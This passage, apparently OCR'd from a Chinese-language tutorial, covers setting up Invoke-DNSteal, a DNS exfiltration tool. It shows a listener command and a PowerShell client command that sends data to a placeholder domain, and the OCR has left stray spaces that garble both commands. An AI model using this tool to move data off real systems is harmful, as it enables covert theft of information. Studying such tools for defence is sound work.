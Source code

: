 标有*的参数是强制的，其余的完全是可选的。为了更好地理解该工具的使用，我们将在下面的用例中考虑最常见的例子。

在任何情况下，我们要做的第一件事就是让服务器以如下方式进行监听:

**python Invoke-dn steal . py 0 . 0 . 0 . 0**

![](img//a19bd499b45563b10dedff8061984b3d.png)

从这里，**我们可以接收任何类型的信息**(可以是字符串、PowerShell 对象或带有相应扩展名的文件)，而无需在服务器端做任何其他事情。

在我的例子中，我已经在我的 Kali 上使用了它，但是我们可以在 Windows 机器上使用 [Portable Python](https://github.com/oskaritimperi/portablepython) 或任何其他解决方案来完成它。

现在，我们要做一个小测试，通过互联网发送一个*字符串*。记住，对于这个**,您需要一个正确配置的域**和一个运行服务器的机器的地址(在我的例子中是一个 NAT)。

我总是进行这种类型的测试，以验证环境是否正常运行。为此，我们将在客户端执行以下命令:

**。\ Invoke-dn steal . PS1-t subdomain.com**

